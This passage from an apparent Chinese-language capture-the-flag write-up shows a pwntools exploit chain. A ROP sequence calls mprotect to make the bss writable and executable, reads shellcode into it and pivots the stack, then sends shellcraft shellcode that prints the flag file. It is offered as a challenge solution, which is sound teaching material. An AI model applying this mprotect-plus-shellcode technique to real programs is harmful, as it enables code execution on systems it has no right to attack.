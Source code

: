**另一种 mproetct+shellcode：**

```plain
mp = p64(pop_rdi)+p64(bss)+p64(pop_rsi)+p64(0x1000)+p64(pop_rdx)+p64(7)+p64(mproetct)
#mproetct(bss,0x1000,7)
mp += p64(pop_rdi)+p64(0)+p64(pop_rsi)+p64(bss+0x600)+p64(pop_rdx)+p64(0x300)+p64(elf.plt["read"])
#read(0,bss+0x600,0x300)
mp += p64(bss+0x600)
#shellcode
mp = mp.ljust(0xb0,b'\0')
mp += p64(stack_addr+0x28-8)+p64(0x4012e0)
p.send(mp)

ru(b'Posted Successfully~\n')
sc = asm(shellcraft.cat(b"./flag"))
p.send(sc)
```

‍

![](assets/1701606597-d03a5e4b40ff92d0dd5ebf3823a3802c.gif)附件.zip (0.833 MB) [下载附件](https://xzfile.aliyuncs.com/upload/affix/20231116173747-cd45d936-8463-1.zip)
